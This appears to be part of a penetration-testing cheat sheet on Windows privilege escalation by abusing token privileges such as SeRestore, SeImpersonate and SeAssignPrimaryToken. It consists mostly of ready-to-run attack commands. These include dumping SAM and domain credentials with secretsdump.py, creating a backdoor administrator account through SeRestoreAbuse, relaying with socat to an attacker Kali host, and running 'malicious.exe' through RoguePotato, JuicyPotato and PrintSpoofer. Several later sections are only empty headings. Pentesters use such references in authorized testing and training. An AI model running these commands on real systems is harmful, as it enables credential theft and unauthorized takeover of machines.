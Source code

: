 ```
secretsdump.py -sam sam.save -system system.save local
```

### SeRestorePrivilege

```
SeRestoreAbuse.exe "cmd /c net user thescriptkid thescriptkid /add"
```

```
SeRestoreAbuse.exe "cmd /c net localgroup administrators thescriptkid /add"
```

```
secretsdump.py domain.local/user:password@$ip
```

### SeImpersonatePrivilege OR SeAssignPrimaryToken

#### **RoguePotato**

_If the machine is >= Windows 10 1809 & Windows Server 2019_

```
socat tcp-listen:135,reuseaddr,fork tcp:Windowsip:9999
```

_Transfer a malicious binary or nc.exe before running the following command_

```
RoguePotato.exe -r Kali-ip -e "C:\full\path\to\malicious.exe" -l 9999
```

#### **JuicyPotato**

_If the machine is < Windows 10 1809 < Windows Server 2019_

{% code overflow="wrap" %}
```
juicypotato.exe -l 1337 -p c:\full\path\to\malicious.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83} OR {4991d34b-80a1-4291-83b6-3328366b9097}
```
{% endcode %}

#### **PrintSpoofer**

```
printspoofer.exe -c "C:\full\path\to\malicious.exe" -i
```

#### **HotPotato**

_Windows 7, 8, 10, Server 2008, and Server 2012_

### SeDebugPrivilege

### SeShutdownPrivilege
